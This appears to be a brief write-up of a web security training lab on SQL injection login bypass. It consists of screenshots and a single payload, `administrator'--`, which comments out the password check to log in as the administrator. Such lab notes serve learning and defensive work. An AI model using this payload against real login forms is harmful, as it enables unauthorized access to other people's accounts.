 # No.2 Lab: SQL injection vulnerability allowing login bypass
<img width="1919" height="979" alt="image" src="https://github.com/user-attachments/assets/4fa93fce-a5f4-49c0-a48e-06a1c4359021" />

### Make a payload to bypass login
`administrator'--`

<img width="1918" height="962" alt="image" src="https://github.com/user-attachments/assets/72db7a25-6a83-4a8b-9e3b-ed985edd4e88" />
<img width="1919" height="966" alt="image" src="https://github.com/user-attachments/assets/ea9d5192-37b4-45d7-9d11-e93a43f12209" />
